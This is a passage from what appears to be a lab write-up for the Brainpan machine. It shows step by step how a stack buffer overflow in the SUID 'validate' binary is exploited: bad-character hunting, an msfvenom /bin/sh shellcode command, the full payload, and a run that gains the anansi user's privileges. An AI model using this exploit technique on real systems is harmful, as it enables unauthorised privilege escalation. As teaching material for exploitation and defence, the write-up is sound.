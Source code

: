 ```
0xffffd138:	0x41414141	0x44434241	0x04030201	0x08070605
0xffffd148:	0x00000000	0xf7e38a4b	0xf7fbd3dc	0x08048204
```
Our new byte string starts at `0x04030201` and continues to `0x08070605` (read backwards would be 01,02,...08). The next memory location holds NULL bytes, `0x00000000` - now we know that `09` is a bad character. So, remove `\x09` from our new byte string and rerun the input. Repeat the analysis process and then repeat the whole process until we have no full NULL memory address values and a list of bad characters.

`\x09\x0a\x10\x46`
At one point during this process, the application ran successfuly, but said 
```
validating input...failed: 46
```
This means that '`\x46` is a bad character. 

## Generate our Paylod
Since this is a local prviliege escalation exploit, no reverse shell is needed. This means that we can use the payload, `/linux/x86/exec`. Any command that we get executed will run as the `anansi` user because of the SUID permissions.
```
-rwsr-xr-x 1 anansi anansi 8.6K Mar  4  2013 validate
```
Let's use MSFVenom to create this shell code for us,
```
/infosec/exploitation/metasploit-framework/msfvenom -p linux/x86/exec CMD=/bin/sh -b '\x00\x09\x0a\x10\x46' -f py
```
## Create Exploit Code
Now, we are ready to create our local privilege escalation exploit code for the vulnerable `validate` application. First, let's put the whole process into perspective. 
* To exploit the application, we exploit the fact that the programmer does not handle our input properly by checking it's length or using secure string copy functions available in C. 
* Our input crashes the application because it overwrite the stack pointer, EIP.
* Our input also overwrite the EAX register. 
* We point the EIP to EAX and it will execute any shell code available in EAX.
* The code bytes are reversed in memory using **Little Endian.**
* We need to have the follwing in EAX in this sepcific order,
  1. The address of `call %eax` - `0x80484af` (found in above step)
  2. A NOP sled to our shell code
  3. Our shell code (which just does '/bin/sh')
Again, the new payload to our applcation to exploit the vulnerability will now be, (shell code)+(NOP sled (fill bytes to keep initial 200 byte length))+(Address of `call %eax` Assembly instruction). We already know all of this information, so let's just look at the payload now,
```
$(python -c "print '\xdb\xc1\xd9\x74\x24\xf4\xb8\x33\xc8\xf9\xcc\x5b\x33\xc9\xb1\x0b\x31\x43\x1a\x03\x43\x1a\x83\xc3\x04\xe2\xc6\xa2\xf2\x94\xb1\x61\x63\x4d\xec\xe6\xe2\x6a\x86\xc7\x87\x1c\x56\x70\x47\xbf\x3f\xee\x1e\xdc\xed\x06\x28\x23\x11\xd7\x06\x41\x78\xb9\x77\xf6\x12\x45\xdf\xab\x6b\xa4\x12\xcb' + '\x90' * 46 + '\xaf\x84\x04\x08'")
```
## Test the Exploit
Let's finally send this paylod to the binary on the compromised Target system.
```
puck@brainpan:/usr/local/bin$ id
uid=1002(puck) gid=1002(puck) groups=1002(puck)
puck@brainpan:/usr/local/bin$ ./validate $(python -c "print '\xdb\xc1\xd9\x74\x24\xf4\xb8\x33\xc8\xf9\xcc\x5b\x33\xc9\xb1\x0b\x31\x43\x1a\x03\x43\x1a\x83\xc3\x04\xe2\xc6\xa2\xf2\x94\xb1\x61\x63\x4d\xec\xe6\xe2\x6a\x86\xc7\x87\x1c\x56\x70\x47\xbf\x3f\xee\x1e\xdc\xed\x06\x28\x23\x11\xd7\x06\x41\x78\xb9\x77\xf6\x12\x45\xdf\xab\x6b\xa4\x12\xcb' + '\x90' * 46 + '\xaf\x84\x04\x08'")        
$ id
id
uid=1002(puck) gid=1002(puck) euid=1001(anansi) groups=1001(anansi),1002(puck)
```